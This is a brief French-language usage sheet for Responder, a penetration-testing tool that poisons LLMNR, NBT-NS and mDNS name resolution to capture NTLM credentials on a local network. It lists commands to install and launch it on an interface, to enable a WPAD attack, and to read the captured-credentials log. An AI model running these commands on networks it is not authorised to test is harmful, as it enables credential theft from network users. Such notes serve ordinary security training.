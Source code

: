 # Responder

## 📌 Présentation
Responder est un outil permettant d'exploiter les protocoles de résolution de noms sur un réseau local (LLMNR, NBT-NS, MDNS) pour capturer des identifiants NTLMv1/v2.

## 🛠️ Installation
Sur Kali Linux, Responder est préinstallé. Pour vérifier :
```bash
responder -h
```
Si ce n'est pas le cas :
```bash
sudo apt update && sudo apt install responder -y
```

## 🚀 Utilisation de base

### 📡 1. Écouter le réseau sur une interface
```bash
sudo responder -I <interface>
```
Exemple :
```bash
sudo responder -I eth0
```

### 🔥 2. Activer l'attaque avec WPAD
```bash
sudo responder -I eth0 -w On
```

### 📜 3. Vérifier les logs des identifiants capturés
```bash
cat /usr/share/responder/logs/Responder-Session.log
```
